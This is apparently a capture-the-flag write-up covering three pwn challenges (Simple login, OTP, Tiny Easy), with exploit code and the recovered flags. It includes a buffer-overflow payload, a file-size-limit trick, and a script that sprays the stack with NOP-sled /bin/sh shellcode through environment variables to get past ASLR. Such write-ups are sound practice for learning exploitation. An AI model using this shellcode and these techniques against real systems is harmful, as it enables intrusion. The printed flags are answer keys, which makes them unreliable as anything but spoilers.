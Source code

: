 #### Simple login

```
from pwn import *
import base64
payload = pack(0xdeadbeef)+pack(0x804925f)+pack(0x811eb40)
print  base64.encodestring(payload)
```

There was a memcpy in auth()  which lead to overflow of ebp , then eip = *(ebp+4) now we place &correct() in our payload which is 
stored in global variable 

##### flag :control EBP, control ESP, control EIP, control the world~

#### OTP 

this had no vuln i know , but apparently u have to use ulimit -f 0 so the passcode file is not created and we can enter '' password
but i still wonder why we have to use subprocces.Popen(['otp',''],stderr=stdout)

#### Tiny Easy

this prog just executed our argv[0] and it had aslr ON , using execv we can give argv[0] whatever we want , and to bypass aslr
we <b> spray the stack with environment variable </b>

```
import os
import struct

shellcode="\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"
nopsled = "\x90"*4096;  
payload = nopsled+shellcode

myenv = {}  
for i in range(0,100):  
	myenv["spray"+str(i)] = payload

#envaddr = pack(0xffff3ead)
envaddr = struct.pack("<I",0xff8402c7)

while True:
	print "trying ...."
	p = subprocess.Popen([envaddr], executable="./tiny_easy", env=myenv)
	p.wait()


````

##### flag: What a tiny task :) good job!
